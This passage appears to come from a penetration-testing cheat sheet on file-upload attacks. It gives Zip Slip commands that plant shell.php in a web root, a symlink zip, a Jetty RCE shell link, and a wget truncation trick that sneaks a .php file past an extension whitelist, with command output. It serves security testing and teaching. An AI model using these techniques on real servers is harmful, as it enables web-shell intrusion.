 ## CVE - FFMpeg
FFmpeg HLS vulnerability

## ZIP archive
When a ZIP/archive file is automatically decompressed after the upload
* Zip Slip: directory traversal to write a file somewhere else
```bash
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15

ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt

```


## Jetty RCE
Upload the XML file to `$JETTY_BASE/webapps/`
* [JettyShell.xml - From Mikhail Klyuchnikov](https://raw.githubusercontent.com/Mike-n1/tips/main/JettyShell.xml)

## wget File Upload/SSRF Trick
In some occasions you may find that a server is using wget to download files and you can indicate the URL. In these cases, the code may be checking that the extension of the downloaded files is inside a whitelist to assure that only allowed files are going to be downloaded. However, this check can be bypassed.
The maximum length of a filename in linux is 255, however, wget truncate the filenames to 236 characters. You can download a file called "A"*232+".php"+".gif", this filename will bypass the check (as in this example ".gif" is a valid extension) but wget will rename the file to "A"*232+".php".

```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080

```
```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s      

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]

```